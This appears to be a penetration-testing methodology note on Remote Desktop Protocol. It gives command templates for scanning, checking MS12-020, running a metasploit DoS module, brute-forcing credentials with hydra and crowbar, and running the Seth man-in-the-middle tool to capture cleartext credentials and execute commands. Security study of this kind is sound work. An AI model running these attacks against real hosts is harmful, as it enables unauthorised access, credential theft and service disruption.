 # RDP - Methodology

### Overview

Remote Desktop Protocol (RDP) is a proprietary protocol developed by Microsoft,
which provides a user with a graphical interface to connect to another computer
over a network connection.

The user employs RDP client software for this purpose, while the other computer
must run RDP server software.

RDP authentication mechanism rely on Windows local or Active Directory domain
credentials.

RDP may uses Network Level Authentication (NLA, RDP 6.0 and supported initially
in Windows Vista / Windows Server 2008) which requires the connecting user to
authenticate before a session is established with the server and prevents the
use of resources on the server from the load of the graphical login screen.

### Network scan

Nmap can be used to scan the network for RDP services:

```
nmap -v -p 3389 -A -oA nmap_rdp <RANGE/CIDR>
```

### RDP clients

###### Windows

On Windows, the default Microsoft Remote Desktop application
("Connexion Bureau à distance") or the Remote Desktop Manager third party
application can be used as RDP clients.

The Remote Desktop Manager allows for the configuration and storing of
multiples RDP connection (host and authentication information). A Free Edition
is available as well as a commercial grade Enterprise Edition.

###### Linux

On Linux, rdesktop or Remmina (GUI) can be used as RDP clients.

```
rdesktop [options] server[:port]
Remmina
```

### Known vulnerabilities

Nmap and metasploit can be used to check for the following exploits:

```
# CVE-2012-0002 / MS12-020
nmap -v -p 3389 --script rdp-vuln-ms12-020 <HOST>
msf> use auxiliary/scanner/rdp/ms12_020_check
```

###### CVE-2012-0002 / MS12-020

The CVE-2012-0002 / MS12-020 vulnerability can be used both to realize a Denial
Of Service and remotely execute code on the target.

A metasploit module is available to realize a DoS of the target:

```
msf> use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
```

As of december 2018, no public proof-of-concept code that results in remote
code execution is available.

### Authentication brute force

The local or Active Directory domain account lockout policies apply
(depending on the type of authentication tried) when connecting with RDP.
Vertical brute forcing is thus not possible.

However, horizontal RDP brute forcing can be used for lateral movement once
an account has been compromised. Indeed, the compromised account may not be an
local Administrator (and thus can not connect through PsExec like tool) but can
be a member of the Remote Desktop Users group.

Patator, Hydra or the crowbar Python Script can be used to brute force RDP
access. Patator and crowbar both support NLA (as of December 2018, Patator does
not support no NLA RDP brute force).

```
python crowbar.py -b rdp (-u <USERNAME | <DOMAIN\\USERNAME> | -U USERNAME_FILE) (-c <PASSWORD> | -C <PASSWORDS_LIST) -s <CIDR>

hydra -t 1 -V -l <USERNAME> (-p <PASSWORD> | -P <PASSWORDS_LIST) rdp://<IP | HOST>
```

### Man-in-the-middle attack

Seth is a tool written in Python and Bash to MitM RDP connections that
attempts to downgrade the connection in order to extract clear text credentials.

Seth can be used regardless if Network Level Authentication (NLA) is enabled
on the RDP host.

Seth will notably:
  - Spoof ARP replies to redirect traffic from the victim host to the attacker
  machine and then to the target RDP server.
  - Configure an iptable rule to reject SYN packet to prevent direct RDP
  authentication.
  - Clone the SSL certificate (only replacing the public key and signature)
  - Block traffic to port 88 to downgrade Kerberos authentication to NTLM.

Note that the user will be presented with a certificate error warning that must
be accepted before the clear text credentials are sent.

In case of a successful attack:

  - Clear text credentials of the user login in are obtained
  - A command can be executed on the targeted host
  - Victim keyboard inputs are retrieved

Usage:

```
# Unless the RDP host is on the same subnet as the victim machine, the last IP address must be that of the gateway.
# The COMMAND is executed on the RDP host by simulating WIN+R
# The COMMAND should not contains special characters (powershell -enc <STRING> can be used)

seth.sh <INTERFACE> <ATTACKER_IP> <VICTIM_IP> <GATEWAY_IP | HOST_IP> [<COMMAND>]
```

### Session Hijacking

If Administrator / SYSTEM privileges could be obtained on a host, RDP sessions
of others users can be hijacked. This could be used to access the
host as the hijacked user through a GUI interface with out knowing its password.  

To hijack RDP session refer to the [Windows] Post Exploitation note.

